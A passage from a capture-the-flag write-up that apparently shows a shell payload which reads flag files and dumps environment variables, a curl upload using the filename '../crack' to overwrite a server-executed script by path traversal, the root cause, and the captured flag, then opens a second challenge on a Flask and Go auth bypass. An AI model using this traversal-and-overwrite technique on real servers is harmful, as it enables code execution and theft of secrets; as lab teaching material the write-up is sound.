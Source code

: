 ```sh
#!/bin/sh
echo "hash_factory v1.0:"
cat /flag 2>/dev/null || cat /root/flag 2>/dev/null || cat /app/flag 2>/dev/null || cat /flag.txt 2>/dev/null || (echo "[fallback] listing / and env..."; ls -la /; env)
```

### Step 2 – Upload exploit as `../crack`
We upload the malicious file with a crafted filename `../crack`. This causes the server to save our file in place of the original `/app/crack` binary.

```bash
curl -s -F 'hash_file=@exploit.sh;filename=../crack' http://localhost:5001/ | sed -n '/<pre>/,/<\/pre>/p'
```

### Step 3 – Get the flag
On the next request, the Flask server executes our overwritten `crack` script. Since it now runs our shell script, it prints the flag directly inside the `<pre>` HTML output.

---

### Root Cause
The vulnerability is due to **unsanitized file upload handling**:
- The uploaded filename is used directly when saving to disk.
- No path sanitization is done, so directory traversal (`../`) allows overwriting arbitrary files in `/app`.
- Since `/app/crack` is executed on every request, overwriting it results in **full code execution** as the `app` user.

---


### Flag
After exploitation, the service reveals the flag in the output of our script.

```
BHFlagY{flag_on_env}
```

---

## 2) Web – Go brrr – (Flask + Go Auth Bypass)

### Challenge Description
We are given a Flask web application (`app.py`) that exposes two main endpoints:

- `/user` – handles login requests by forwarding credentials to an **auth service** written in Go (`app.go`).
- `/admin` – restricted page that reveals the flag if the user is authenticated as admin.

The goal is to bypass authentication and retrieve the flag.

---

